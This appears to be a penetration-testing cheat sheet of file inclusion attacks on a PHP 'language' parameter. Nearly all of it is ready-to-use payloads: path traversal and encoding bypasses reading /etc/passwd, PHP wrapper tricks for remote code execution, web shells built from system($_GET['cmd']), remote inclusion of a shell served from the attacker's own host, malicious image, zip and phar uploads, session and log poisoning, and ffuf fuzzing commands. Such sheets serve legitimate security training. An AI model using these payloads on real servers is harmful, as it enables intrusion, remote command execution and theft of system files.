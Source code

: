 | `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | Bypass filters with URL encoding |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00` | Bypass appended extension with null byte (obsolete) |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config` | Read PHP with base64 filter |


## Remote Code Execution

| **Command** | **Description** |
| --------------|-------------------|
| **PHP Wrappers** |
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id` | RCE with data wrapper |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"` | RCE with expect wrapper |
| **RFI** |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>` | Host web shell |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id` | Include remote PHP web shell |
| **LFI + Upload** |
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif` | Create malicious image |
| `/index.php?language=./profile_images/shell.gif&cmd=id` | RCE with malicious uploaded image |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php` | Create malicious zip archive 'as jpg' |
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id` | RCE with malicious uploaded zip |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg` | Create malicious phar 'as jpg' |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id` | RCE with malicious uploaded phar |
| **Log Poisoning** |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` | Read PHP session parameters |
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E` | Poison PHP session with web shell |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id` | RCE through poisoned PHP session |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'` | Poison server log |
| `/index.php?language=/var/log/apache2/access.log&cmd=id` | RCE through poisoned PHP session |


## Misc

| **Command** | **Description** |
| --------------|-------------------|
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287` | Fuzz page parameters |
| `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287` | Fuzz LFI payloads |
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path |
| `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287` | Fuzz server configurations |
| [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)|
| [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) |